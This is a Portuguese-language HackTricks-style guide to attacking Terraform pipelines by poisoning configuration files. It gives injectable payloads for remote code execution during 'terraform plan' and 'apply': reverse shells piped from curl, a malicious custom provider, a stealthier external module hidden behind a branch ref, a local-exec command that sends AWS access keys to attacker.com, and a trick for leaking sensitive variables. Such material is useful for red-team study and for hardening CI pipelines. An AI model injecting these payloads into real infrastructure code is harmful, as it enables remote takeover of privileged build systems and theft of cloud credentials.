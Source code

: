 # Segurança do Terraform

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

HashiCorp Terraform é uma **ferramenta de infraestrutura como código** que permite definir recursos **na nuvem e locais** em arquivos de configuração legíveis por humanos que você pode versionar, reutilizar e compartilhar. Você pode então usar um fluxo de trabalho consistente para provisionar e gerenciar toda a sua infraestrutura ao longo do seu ciclo de vida. O Terraform pode gerenciar componentes de baixo nível como recursos de computação, armazenamento e rede, bem como componentes de alto nível como entradas DNS e recursos de SaaS.

### Como o Terraform funciona?

O Terraform cria e gerencia recursos em plataformas de nuvem e outros serviços por meio de suas interfaces de programação de aplicativos (APIs). Os provedores permitem que o Terraform trabalhe com praticamente qualquer plataforma ou serviço com uma API acessível.

![](<../../.gitbook/assets/image (33).png>)

HashiCorp e a comunidade Terraform já escreveram **mais de 1700 provedores** para gerenciar milhares de diferentes tipos de recursos e serviços, e esse número continua a crescer. Você pode encontrar todos os provedores publicamente disponíveis no [Registro do Terraform](https://registry.terraform.io/), incluindo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e muitos outros.

O fluxo de trabalho central do Terraform consiste em três etapas:

* **Escrever:** Você define recursos, que podem estar em vários provedores de nuvem e serviços. Por exemplo, você pode criar uma configuração para implantar um aplicativo em máquinas virtuais em uma rede Virtual Private Cloud (VPC) com grupos de segurança e um balanceador de carga.
* **Planejar:** O Terraform cria um plano de execução descrevendo a infraestrutura que ele criará, atualizará ou destruirá com base na infraestrutura existente e na sua configuração.
* **Aplicar:** Com aprovação, o Terraform executa as operações propostas na ordem correta, respeitando quaisquer dependências de recursos. Por exemplo, se você atualizar as propriedades de um VPC e alterar o número de máquinas virtuais nesse VPC, o Terraform recriará o VPC antes de escalar as máquinas virtuais.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

O Terraform Enterprise permite que você **execute comandos** como `terraform plan` ou `terraform apply` remotamente em uma **versão auto-hospedada do Terraform Cloud**. Portanto, se você encontrar a **chave API** para acessar esse servidor Terraform, você pode **comprometê-lo**.\
Para mais informações, confira:

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Laboratório Terraform

Basta instalar o terraform no seu computador.

Aqui você tem um [guia](https://learn.hashicorp.com/tutorials/terraform/install-cli) e aqui você tem a [melhor maneira de baixar o terraform](https://www.terraform.io/downloads).

## RCE no Terraform

O Terraform **não possui uma plataforma que expõe uma página web ou um serviço de rede** que possamos enumerar, portanto, a única maneira de comprometer o terraform é **ser capaz de adicionar/modificar arquivos de configuração do terraform**.

No entanto, o terraform é um componente **muito sensível** para comprometer porque terá **acesso privilegiado** a diferentes locais para poder funcionar corretamente.

A principal maneira de um atacante ser capaz de comprometer o sistema onde o terraform está executando é **comprometer o repositório que armazena as configurações do terraform**, porque em algum momento elas serão **interpretadas**.

Na verdade, existem soluções por aí que **executam terraform plan/apply automaticamente após a criação de um PR**, como o **Atlantis**:

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Se você conseguir comprometer um arquivo terraform, existem diferentes maneiras de realizar RCE quando alguém executa `terraform plan` ou `terraform apply`.

### Terraform plan

O comando `terraform plan` é o **mais utilizado** no terraform e desenvolvedores/soluções que usam terraform o chamam o tempo todo, então a **maneira mais fácil de obter RCE** é garantir que você envenene um arquivo de configuração do terraform que executará comandos arbitrários em um `terraform plan`.

#### Usando um provedor externo

O Terraform oferece o [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) que fornece uma maneira de interagir entre o Terraform e programas externos. Você pode usar a fonte de dados `external` para executar código arbitrário durante um `plan`.

Injetar em um arquivo de configuração do terraform algo como o seguinte executará um rev shell ao executar `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Usando um provedor personalizado

Qualquer um pode escrever um [provedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) e publicá-lo no [Registro do Terraform](https://registry.terraform.io/). Você também pode tentar puxar um provedor personalizado de um registro privado.

É isso:

* escreva um provedor personalizado que execute algum código malicioso (como exfiltrar credenciais ou dados de clientes)
* publique-o no Registro do Terraform
* adicione o provedor ao código Terraform em uma branch de funcionalidade
* abra um PR para a branch de funcionalidade
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Uma vez que o provider será importado durante o `init` e executará algum código durante o `plan`, você tem execução arbitrária de código.

Você pode encontrar um exemplo em [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando uma referência externa

Ambas as opções mencionadas são úteis, mas não muito discretas (a segunda é mais discreta, mas mais complexa que a primeira). Você pode realizar este ataque de uma maneira ainda mais **discreta**, seguindo estas sugestões:

* Em vez de adicionar o rev shell diretamente no arquivo terraform, você pode **carregar um recurso externo** que contém o rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Você pode encontrar o código rev shell em [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

* No recurso externo, use o recurso **ref** para ocultar o **código terraform rev shell em um branch** dentro do repositório, algo como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

O Terraform apply será executado para aplicar todas as alterações, você também pode abusar dele para obter RCE injetando **um arquivo Terraform malicioso com** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Você só precisa garantir que algum payload como os seguintes termine no arquivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Siga as **sugestões da técnica anterior** para realizar este ataque de uma **maneira mais discreta usando referências externas**.

## Vazamento de Segredos

Você pode ter **valores secretos usados pelo terraform revelados** executando `terraform apply` ao adicionar ao arquivo terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Ferramentas de Auditoria

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análise estática do seu código terraform para identificar possíveis má configurações.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan é um analisador de código estático para Infraestrutura como Código.

## Referências

* [Segurança Atlantis](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
